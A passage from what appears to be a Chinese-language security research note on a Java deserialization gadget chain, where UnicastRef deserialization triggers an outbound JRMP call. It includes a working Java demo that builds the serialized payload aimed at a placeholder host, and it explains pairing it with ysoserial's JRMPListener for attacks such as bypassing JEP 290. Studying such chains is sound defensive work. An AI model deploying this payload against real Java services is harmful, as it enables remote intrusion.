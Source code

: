 即想说明当某个类实现了 Externalizable 接口，当通过 readObject() 进行反序列化时，JVM 会调用该类的无参构造方法后，自动调用其 readExternal()。

那么整条链就通了，由于 UnicastRef 的构造函数是 Public 的，那么写法也更简单了，都不需要使用到反射，给出 Demo 如下-->

```java
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.rmi.server.ObjID;
import java.util.Random;

public class JRMPClientPayload {

    public static void main(String[] args) throws Exception {

        String host = "xxx.xxx.xxx.xxx";
        int port = 1099;
        ObjID id  = new ObjID(new Random().nextInt());
        TCPEndpoint te  = new TCPEndpoint(host, port);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        serializeObject(ref);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```

接着去伪造一个 Server 端，直接用 Ysoserial 中 ysoserial.exploit.JRMPListener 这个 Payload 就好，之前记录过，这里不再赘述。开启后，运行上面的 Demo，1099 端口成功收到请求如下-->

![alt text](image-412.png)

此时也成功触发 DNS 请求，如下-->

![alt text](image-394.png)

这第二条链其实就是 Ysoserial 中 ysoserial.payloads.JRMPClient 这个 gadget，可以结合 ysoserial.exploit.JRMPListener 这个 Payload 去发起攻击。是很重要的一条链，不管是之后的 Bypass JEP 290 还是 Shiro 的二次反序列化等场景都会见到它的身影。

记录到此结束！